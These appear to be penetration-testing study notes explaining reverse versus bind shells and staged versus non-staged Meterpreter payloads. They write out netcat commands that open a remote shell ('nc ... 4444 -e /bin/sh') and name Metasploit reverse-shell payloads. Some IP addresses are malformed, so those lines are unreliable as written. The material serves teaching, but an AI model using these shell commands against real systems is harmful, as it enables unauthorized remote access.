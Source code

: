 ## Reverse versus Bind Shells
* Reverse shell means a victim connects to us. Target is connecting, attackbox is listening.  
  * We are listening on a port (nc -lvp 4444, lvp is listening verbose prot)
  * Victim machine is saying nc 192.168.1.1.1 4444 -e /bin/sh
* Bind shell (we connect to a victim) - we open a port on the machine, and then we connect to it
  * Exploit opens up port, so we connect through nc 192.1682.1.2 4444
  * On victim side, nc -lvp 4444 -e /bin/sh
 * You will be using reverse shells 95% of the time. Bind shells are most likely on external assessments.
   * Externals use bind shells - NAT through public IP address to connect to that port. Reverse, you would have to open up your home network to the world.

  ## Staged versus Non-Staged Payloads
* Non-staged: Sends exploit shellcode all at once. Large in size and won't alway work.
  * Example: windows/meterpreter_reverse_tcp
 * Staged: Sends payloads in stages, can be less table.
   * Example: windows/meterpreter/reverse_tcp
